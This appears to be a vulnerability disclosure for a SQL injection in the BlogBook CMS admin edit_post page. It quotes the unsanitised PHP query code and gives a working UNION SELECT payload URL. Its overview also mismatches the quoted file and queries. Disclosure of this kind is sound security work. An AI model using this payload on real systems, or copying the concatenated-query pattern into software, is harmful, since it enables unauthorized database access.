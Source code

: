 # BlogBook /admin/posts.php edit_post p_id Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php edit_post p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists in the [post.php] file of the BlogBook application. User-supplied input from the p_id GET parameter is directly concatenated into SQL query strings without adequate sanitization. This affects both an UPDATE query designed to increment post view counts and a SELECT query used to fetch post data for display. Consequently, an unauthenticated remote attacker can inject and execute arbitrary SQL commands, potentially leading to unauthorized data access, modification, or further compromise of the database.

## Vulnerability Point

`blogbook-main/admin/includes/edit_post.php:8`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
if(isset($_GET['p_id'])){
    $edit_post_id= $_GET['p_id'];
}


$query="SELECT * FROM posts WHERE post_id={$edit_post_id}";
                            $select_posts_by_id=mysqli_query($connection,$query);   
                            while($row=mysqli_fetch_assoc($select_posts_by_id)){
                               global $cat_id;
                                 $post_id=$row['post_id'];
                                 $post_author=$row['post_author'];
                                 $post_title=$row['post_title'];
                                 $post_category_id=$row['post_category_id'];
                                 $post_image=$row['post_image'];
                                 $post_tags=$row['post_tags'];
                                 $post_content=$row['post_content'];
                                 $post_comment_count=$row['post_comment_count'];
                                 $post_date=$row['post_date'];
                                 $post_status=$row['post_status'];
                            }
```
## Payload

`http://localhost/admin/posts.php?source=edit_post&p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`

![add_post sqli](./assets/edit_post_sqli.png)
